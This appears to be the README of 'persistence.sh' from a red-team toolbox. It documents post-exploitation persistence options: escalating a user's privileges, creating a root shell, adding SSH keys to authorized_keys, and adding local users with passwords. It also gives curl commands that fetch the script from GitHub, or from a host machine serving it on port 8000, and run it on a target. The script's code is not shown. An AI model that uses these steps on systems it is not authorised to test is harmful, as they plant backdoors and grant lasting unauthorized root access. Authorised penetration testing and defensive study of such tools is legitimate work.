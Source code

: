 # Persistence Phase

Definition...  

Available parts:
- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user
- Serve a local web server

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
```sh
# Local network
# Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters

```sh
sh persistence.sh -h

Usage: sh persistence.sh [-h/-?] [-e] [-r] [-s] [-u] [-p] [-w] [-q]

-h/-?
  Show this help message

-e <username>
  Elevate privileges of the given user
  Root needed!

-r
  Create a root shell
  Root needed!

-s <ssh public key / content of id_rsa.pub>
  Trying to add ssh public key to authorized_keys of current user

-u <username>
  Add a local account/user
  Root needed!

-p <password>
  Set this password to new user
  Only useful in combination with -u parameter
  Root needed!

-w
  Serves an local web server for transferring files

-q
  Quiet. No banner and no advisory displayed
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 